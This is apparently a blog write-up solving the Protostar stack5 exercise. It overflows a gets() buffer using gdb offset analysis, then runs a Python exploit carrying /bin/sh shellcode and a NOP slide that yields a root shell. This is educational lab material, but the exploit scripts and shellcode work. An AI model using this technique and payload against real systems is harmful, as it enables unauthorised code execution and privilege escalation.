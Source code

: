 ```yaml
---
title: Protostar Writeup - stack5
updated: 2018-08-07 15:30
---
```


## Protostar - stack5

This is one of my favorite challenges. We actually get to do something useful here. Our task is to execute shellcode.
Shellcode is nothing but a sequence of bytes, which when executed does some task. Note that this only works if the stack is executable.
This is true for older machines, however newer ones mitigate this vulnerability my making the stack non executable. We don't have to worry much about that.
So here's the code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

Nothing useful overhere, except the fact that we have an exploitable `gets()` function. So our choice of attack is a buffer overflow. We know from the previous post, that we can overflow into the EIP. Thus controlling the codeflow.
Once we can do that, it's just a matter of redirecting control to our 'injected' shell code. First things first. Let's get the offset of the EIP. I'm using pwntools to generate the offset string.

```shell
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Breakpoint 1, main (argc=1633771893, argv=0x61616176) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
```

Finding `0x61616174` in the offset string we find the location of the EIP at 76 bytes. So our address to our shellcode goes after 76 bytes of padding.
Before we proceed let's take a look at the stack and figure out where to place our shell code.

```shell
$ python -c "print 'A' * 76 + 'ABCD'" > /tmp/exploit
$ gdb stack5
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=0, argv=0xbffff854) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) x/24wx $esp
0xbffff7b0:	0x00000000	0xbffff854	0xbffff85c	0xb7fe1848
0xbffff7c0:	0xbffff810	0xffffffff	0xb7ffeff4	0x08048232
0xbffff7d0:	0x00000001	0xbffff810	0xb7ff0626	0xb7fffab0
0xbffff7e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff7f0:	0xbffff828	0x87ea710a	0xadbd671a	0x00000000
0xbffff800:	0x00000000	0x00000000	0x00000001	0x08048310
```
We can probably choose anyone of these addresses, let's try the first one `0xbffff7b0`.
Below is the exploit script code.

```python
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0)
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
    print offset + address + shellcode

go()
```

Now let's run this and see what happens.

```shell
$ python /tmp/exploit.py | ./stack5
```

Oh oh!. Something's not right, we're getting an illegal instruction error. Let's take a look at it in the debugger.
We find something even more funny here, it works perfectly fine in the debugger.

```shell
$ python /tmp/exploit.py > /tmp/exploit
$ gdb stack5
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=795371626, argv=0x68732f2f) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.
Executing new program: /bin/dash

Program exited normally.
```

This actually bugged me for quite some time. I found a solution to this in the reddit thread [here](https://www.reddit.com/r/LiveOverflow/comments/8pr5ox/problem_on_protostar_stack5/).
What happens is that when you execute a program, the OS even pushes the environment variables onto the stack.
Now when we run the executable outside gdb, the environment is different, and hence the shellcode gets misaligned.
To counter this we can use something called as a NOP slide. NOP is short for no instruction, which will basically do nothing.
The idea is that you set your EIP to an arbitrary address which you hope will land on the NOP slide.
We place our shellcode after the NOP slide, so when the NOPs are done executing, our shellcode is executed.
There is a little trick to choosing this arbitrary address and length of NOP slides, they should be a multiple of 4, else your shellcode will be misaligned.
This is what is happening to us outside gdb, our shellcode is getting misaligned, so let's fix it.
The below exploit is with a little trial and error, but you should get the idea.

```python
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0 + 16)
nopslide = '\x90' * 32
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
	print offset + address + nopslide + shellcode

go()
```

Let's run it:

```shell
$ python /tmp/exploit.py | ./stack5
$
```

Ok, so no error this time. This begs the question, how do we use the shell, since it exits as soon as it is created.
The reason is that as the input stream closes the shell also exits. So we need a way to hold the input stream.
After digging around a little I came across this stackoverflow [post](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection).

So using one of those techniques...

```shell
$ (python /tmp/exploit.py; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

Owned! We finally managed to get a shell with root privilages. I hope this gives you a taste of privilage escalation. This was by far the most fun exercise I've done. Hope you enjoyed this too :)

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
